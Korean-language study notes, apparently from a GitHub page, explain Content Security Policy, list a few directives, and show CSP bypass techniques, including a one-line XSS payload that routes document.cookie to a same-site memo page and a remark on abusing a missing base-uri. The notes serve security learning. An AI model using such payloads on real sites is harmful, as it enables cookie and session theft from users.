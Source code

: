 
# CSP (Content Security Policy)

XSS 공격의 피해를 줄이기 위해, 웹 페이지에 사용될 수 있는 자원의 위치, 출처 등에 제약을 건다.

- Inline Code를 사용할 수 없다.
  - CSP는 인라인 코드 형태를 지양하고, `<script src="alert.js"></script>` 와 같이 src 속성에 코드 경로를 정의하는 방식을 권장한다.
- `<script>` 태그 내에 코드를 삽입하는 것을 포함하여 on* 이벤트 핸들러 속성, javascript: URL 스킴 또한 인라인 코드로 간주하고 허용하지 않는다.

## Policy Directive

|지시문|설명|
|--|--|
|default-src|`-src`로 끝나는 모든 리소스의 기본 동작을 제어|
|img-src|이미지를 로드할 수 있는 출처를 제어|
|base-uri|페이지의 `base` 태그에 나타날 수 있는 URL을 제어|

### 에시 CSP Bypass

default-src가 self라면, 스스로가 접속하도록 유도하면 된다.
```js
<script src="/vuln?param=document.location='/memo?memo='%2bdocument.cookie"></script>
```

### 에시 CSP Bypass Advanced

base-uri 설정이 없다면, base를 바꿀 수 있다.
HTML `base` 태그는 초기경로를 설정해주며 이에따라 경로가 해석되는 기준점을 변경할 수 있다.